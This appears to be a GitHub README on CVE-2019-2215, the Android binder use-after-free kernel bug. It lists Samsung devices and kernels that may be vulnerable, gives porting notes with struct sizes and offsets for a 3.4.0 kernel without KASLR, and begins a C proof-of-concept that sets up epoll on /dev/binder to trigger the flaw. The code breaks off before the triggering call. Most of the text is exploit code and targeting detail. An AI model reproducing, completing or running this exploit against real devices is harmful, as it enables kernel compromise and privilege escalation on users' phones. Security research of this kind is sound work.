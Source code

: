 # CVE-2019-2215

Source:

https://bugs.chromium.org/p/project-zero/issues/detail?id=1942

https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414885


Samsung S7 and S7 Edge with Kernel 3.18.x vulnerable (see https://github.com/arpruss/cve2019-2215-3.18)

Samsung S3Neo+ with LineageOS Kernel 3.4.0 possibly vulnerable (still in progress)

```

Kernel 3.4.0

https://github.com/S3NEO/android_kernel_samsung_s3ve3g/

No KASLR

No need to leak Kernel Struct Addresses.

binder_thread size:0xfc (252) 

wait queue offset:0x2c (44)


Had to add at least 2 entries for it to trigger, with 1, it didn't trigger

https://github.com/S3NEO/android_kernel_samsung_s3ve3g/blob/348ef929213854f5c7ce6b608e2ca0216d6bdce7/fs/eventpoll.c#L533

PoC:


#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>


#define BINDER_THREAD_EXIT 0x40046208ul
#define BINDER_VERSION 0xc0046209ul

int main()
{
    int fd,fd1,fd2, epfd,epfd1;
    struct epoll_event event = { .events = EPOLLOUT   };

    fd = open("/dev/binder", O_RDONLY);
    fd1 = open("/dev/random", O_RDONLY);
    epfd = epoll_create(1000);
    epfd1 = epoll_create(1000);
  

    if (epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event)) err(1, "epoll_add");
    if (epoll_ctl(epfd1, EPOLL_CTL_ADD, fd1, &event)) err(1, "epoll_add");




    //ioctl(fd, BINDER_VERSION, NULL);
```